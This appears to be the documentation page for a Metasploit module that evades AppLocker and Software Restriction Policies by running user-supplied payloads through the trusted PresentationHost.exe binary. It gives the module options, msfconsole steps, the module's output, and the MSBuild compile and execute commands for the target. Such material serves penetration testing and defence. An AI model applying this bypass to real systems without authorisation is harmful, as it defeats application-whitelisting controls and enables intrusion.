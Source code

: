 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary PresentationHost.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block PresentationHost.exe.

## Options

- **CS_FILE** - Filename for the evasive file (default: presentationhost.xaml.cs).
- **MANIFEST_FILE** - Filename for the evasive file (default: presentationhost.manifest).
- **CSPROJ_FILE** - Filename for the evasive file (default: presentationhost.csproj).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_presentationhost`
  3. Do: `set PAYLOAD <payload>` (note: only x86 payloads are supported by this module)
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] presentationhost.xaml.cs stored at /root/.msf4/local/presentationhost.xaml.cs`
  7. `[+] presentationhost.manifest stored at /root/.msf4/local/presentationhost.manifest`
  8. `[+] presentationhost.csproj stored at /root/.msf4/local/presentationhost.csproj`
  9. `[*] Copy presentationhost.xaml.cs, presentationhost.manifest and presentationhost.csproj to the target`
  10. `[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\MSBuild.exe presentationhost.csproj` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] Execute using: C:\Windows\System32\PresentationHost.exe [Full Path To] presentationhost.xbap` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319") and replace [Full Path To] with the full path to the .xbap.

## References

https://medium.com/tsscyber/applocker-bypass-presentationhost-exe-8c87b2354cd4
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker
https://docs.microsoft.com/en-us/windows-server/identity/software-restriction-policies/software-restriction-policies
